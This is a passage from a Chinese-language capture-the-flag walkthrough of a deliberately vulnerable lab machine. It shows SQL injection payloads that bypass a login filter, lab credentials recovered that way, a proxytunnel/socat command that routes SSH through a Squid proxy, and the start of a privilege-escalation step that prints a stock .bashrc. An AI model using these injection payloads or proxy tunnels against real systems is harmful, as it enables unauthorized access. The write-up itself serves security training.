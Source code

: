 查看报错，发现秘密是 11 ，说明进行了过滤，尝试新的payload：

```sql
'||1=1#
'&1=1#
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402211608784.png" alt="image-20240221143334433" style="zoom:50%;" />

nice！进来了！

```text
Username: john
Password: hereisjohn 
```

尝试使用这个凭证，ssh登录一下，看看行不行：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402211608785.png" alt="image-20240221143644785" style="zoom:50%;" />

似乎访问不到，被我取消掉了，上面扫出一个代理端口`squid`，猜测需要进行代理访问：

```shell
proxytunnel -p 192.168.244.129:3128 -d 127.0.0.1:22 -a 1234
# socat TCP-LISTEN:1234,reuseaddr,fork PROXY:192.168.244.129:127.0.0.1:22,proxyport=3128
```

尝试进行连接，进去了但是会被弹出来

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402211608786.png" alt="image-20240221144528426" style="zoom: 50%;" />

## 权限提升

可以尝试顺便执行命令，查看一下登录文件：

![image-20240221145052699](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402211608787.png)

文件如下：

```shell
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
shopt -s histappend

# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize

# If set, the pattern "**" used in a pathname expansion context will
# match all files and zero or more directories and subdirectories.
#shopt -s globstar
```